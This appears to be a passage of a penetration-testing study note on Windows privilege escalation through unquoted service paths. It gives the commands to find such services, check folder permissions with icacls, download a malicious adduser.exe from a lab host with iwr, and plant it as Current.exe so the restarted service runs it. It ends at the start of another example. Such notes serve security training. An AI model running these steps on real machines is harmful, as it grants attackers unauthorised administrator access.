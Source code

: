 #### Unquoted Service Paths

##### Powerup will identify this vuln

Get-CimInstance -ClassName win32_service | Select Name,State,PathName

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

from cmd:
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
*this will find and that may be vulnerable*

Then check to see if you can start and stop service:
```
start-service GammaService
Stop-Service GammaService
```
*so we have perms, and dont need to reboot to restart service*

OS will attempt the binary in this order, essential as space characters:
```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Next, check perms of each folder along the way:
```
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```
**we DO have permissions to "Enterprise Apps", so lets try there. 
![[Pasted image 20231022121117.png]]


Put malicious file we composed earlier into there and restart service:
```
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

!! this throws an error, but it does work!! Confirm with 
```
net user
```


Another example:
